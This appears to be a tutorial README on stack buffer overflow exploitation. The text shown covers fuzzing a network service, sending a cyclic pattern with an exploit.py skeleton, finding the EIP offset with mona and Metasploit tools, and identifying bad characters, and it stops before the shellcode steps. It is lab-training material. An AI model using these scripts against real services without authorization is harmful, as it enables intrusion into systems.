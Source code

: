 # Steps:
1. Crash The Application
2. Find EIP and Control ESP
3. Identify Bad Characters 
4. Find JMP ESP
5. Generate Shell Code
6. Exploit

# 1. Crash the application 
Create a file called fuzz.py The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application. **Choose one of these versions.**

### Skeleton Version 1

```Python
#!/usr/bin/python 
import socket,sys

ip = '127.0.0.1'
port = 9999
buffer = []

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```

### Skeleton Version 2

```Python
    #!/usr/bin/python 
    import socket, time, sys

    ip = "127.0.0.1"
    port = 9999
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)
```

# 2. Find EIP and control ESP

We are able to establish that we are able to crash the application with a relative number of bytes. Now we need to identify the exact number bytes that it takes to fill the buffer. Metasploit provides a ruby script called pattern_create.rb that will create a unique string with no repeating characters. After we send this payload to the buffer, it will display what the offset is which we'll use for the next step in finding the EIP.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 666 (Change 666 to the value that crashed the server) 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...
```

Create a new script called exploit.py
You take the unique string character created and that becomes your new buffer in exploit.py 


### Skeleton

```Python
#!/usr/bin/python 
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2..."
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Send that payload to the application, make sure it crashed and grab the EIP value in the debugger.

Now, we have 3 methods to find the offset:


## Method 1

Use mona's findmsp command, with the distance argument set to the pattern length.

    ...
    !mona findmsp -distance 666
    
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    **EIP contains normal pattern : 0x78413778 (offset 112)**
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...
NOTE: Mona should display a log window with the output of the command. If not, click "Window" menu and then "Log Data" to view it (Choose "CPU" to switch back to the standard view)

## Method 2

We will now use a second script from Metasploit called pattern_offset.rb. What this script will do is take that value and seeing exactly where it exists in the buffer length we designate, showing us the point where the buffer will crash. 

```
root@gh0x0st:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q pasteESPvaluehere -l 666
[*] Exact match at offset 112
```
## Method 3

You can also use these web generator to find the offset:
1. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
2. https://wiremask.eu/tools/buffer-overflow-pattern-generator/


### 3. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

```
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff. Called badchars.py

```
 #!/usr/bin/env python
 from __future__ import print_function

 for x in range(1, 256):
     print("\\x" + "{:02x}".format(x), end='')

 print()
```

Create a new buffer using this information to ensure that we can control EIP:

```
 prefix = ""
 offset = 112
 overflow = "A" * offset
 retn = "BBBB"
 padding = ""
 payload = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
 postfix = ""
    
 buffer = prefix + overflow + retn + padding + payload + postfix
```

Restart Immunity and run the exploit.py again. Then, use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

```
!mona compare -f C:\mona\appname\bytearray.bin -a <address> (ESP address and remember change the path of the appin "appname")
```


